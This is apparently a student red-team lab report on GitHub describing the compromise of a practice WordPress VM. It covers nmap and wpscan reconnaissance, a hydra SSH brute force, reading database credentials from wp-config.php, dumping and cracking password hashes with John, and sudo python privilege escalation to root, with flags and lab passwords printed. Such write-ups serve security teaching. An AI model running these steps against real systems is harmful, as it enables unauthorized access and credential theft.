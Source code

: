 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services


Nmap scan results for each machine reveal the below services and OS details:

    $nmap -sP 192.168.1.1-255: This namp scan scans the full 192.168.1.1 network for any live hosts available. It revealed to hosts up: 192.168.1.110 and 192.168.1.115.

    https://github.com/D7Carivs/Red-Blue-Network/blob/8d270379a8e0adfe76fd3abdc87911b389e9f9b5/Offensivereport/screenshots/Kali%20nMap%20scan%20of%20network.PNG
  
    $nmap -sV 192.168.110: This scan was then ran to reveal any open ports and running services. Port 80 and 22 were left open and vulnerable. These ports were exploited in the attack. 
    
    https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20192.168.1.110%20ports%20open.PNG

    https://github.com/D7Carivs/Red-Blue-Network/blob/512c4f050f9bb360678b287645b18518528c6a6e/Offensivereport/screenshots/nmap%20scan%20report%20for%20192.168.1.110.PNG


    $wpscan --url http://192.168.1.110/wordpress -eu: This scan was then used to find users and vulnerabilities on the host. Users Steven and Michael were found with Brute force attack vulnerability. These two usernames could be used to access root on the host system. 

     https://github.com/D7Carivs/Red-Blue-Network/blob/622ca8e810773ae1f79aeb06bf73be2f99b5bc4b/Offensivereport/screenshots/wpscan%20usernames.PNG

    Port 22 was then used to ssh into 192.168.1.110 as Michael after using hydra to crack his password. He used his name (michael) as his password. 

    https://github.com/D7Carivs/Red-Blue-Network/blob/d08f9c86548a37b0983556be6dd0689e8111a3a1/Offensivereport/screenshots/hydra%20michael%20password.PNG

    https://github.com/D7Carivs/Red-Blue-Network/blob/c2e216333f3123128eaa7c49d06bbebdd8bfda6b/Offensivereport/screenshots/ssh%20michael@192.168.1.110%20password%20michael.PNG

- **The following vulnerabilities were found during the exploitation:**

  - Network Mapping and User Enumeration(WordPress site)
  - Unsalted User Password Hash(WordPress database)
  - Weak User Password
  - MySQL Database Access
  - MySQL Data Exfiltration
  - Misconfiguration of User Privileges or Privelege Escalation
   
- **Description in order of above vulnerabilities:**
  - Nmap was used to discover open port accessibility
  - Wpscan was used to gain username information
  - User password was weak and hydra was able to crack it easily
  - A file was discovered containing login information for MySQL database
  - Password hashes of the users were discovered when viewing MySQL database
  - It was also discovered Steven had sudo privileges for python
- **The following impacts occur due to these vulnerabilities in same order as previous**
  - Open ports are discoverable and attacks can be tailored accordingly
  - Username information can be used to access the web server
  - Weak password will allow and ssh access attack into the web server
  - The login information can be used to gain access to MySQL database
  - The password hashes were able to be saved to a file and cracked using John the Ripper
  - Steven's sudo privileges in python were able to be accessed and escalated to root.       

### Exploitation

The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: flag1{b9bbcb33e11b80be759c4e844862482d}
    - **Exploit Used**
      - ssh michael@192.168.1.110
      - password:michael
      - cd /var/www/
      - grep -RE flag html
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/Flag1%20%20stability%20flags.PNG
       
    - `flag2.txt`:flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
    - **Exploit Used**
      - while still in /var/www: ls
      - cat flag2.txt
       
      - https://github.com/D7Carivs/Red-Blue-Network/blob/269f2afc3d16535eaf4fd059822e3c9e63931638/Offensivereport/screenshots/flag2.PNG
      - 
      - 'flag3.txt': flag3{afc01ab56b50591e7dccf93122770cd2}
      - michael@target1:~$ cat /var/www/html/wordpress/wp-config.php
        -This was used to view the credentials to perform a user password hash dump.
      - https://github.com/D7Carivs/Red-Blue-Network/blob/88701f52dab4a05d36f55e6fb563061e5e74c23e/Offensivereport/screenshots/wp-config%20database.PNG
      - mysql -u root-p command was used with the password information from previous command. password: r@v3nSecurity
      - mysql launched. the following commands were used:
      - show databases;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/my%20sql.PNG
      - use wordpress;
      - show tables;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d9a5e97600bd7cf1fe6e7b89557595c75bedbc3b/Offensivereport/screenshots/mysql%20wordpress%20show%20tables.PNG
      - select * from users;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d0e8d4b4a43c4d52390870592ac152ceb9a75a88/Offensivereport/screenshots/wp_users.PNG
      - select * from wp_posts;
      - https://github.com/D7Carivs/Red-Blue-Network/blob/42324a8bc3e02128c5b25eb097640413c89a541f/Offensivereport/screenshots/wp_posts%20flag%203.PNG
      - We then exited the target 1 machine and cracked the hashes. 
      - A wp_hashes.txt file was then created for Steven and Michael's hashes.
      - John was then used to crack the hashes. Michael's hash was not able to be cracked. However, Steven's hash was and the password revealed was pink84.
      - The following commands were used to crack the hash with john:
      - john wp_hashes.txt
      - john -show wp_hashes.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/john%20password%20cracker%20steven%20pink84.PNG
      - Root access was then able to be obtained with steven's password with the following commands:
      - ssh steven@192.168.1.110
      - pink84
      - sudo python -c 'import pty;pty.spawn("/bin/bash");'
      - cd /
      - id
      - cd /root
      - ls
      - cat flag4.txt
      - https://github.com/D7Carivs/Red-Blue-Network/blob/d5e9bc5ff1a42a676bd6c654a71f9161e68aa990/Offensivereport/screenshots/flag%204%20steven%20root.PNG

 
      
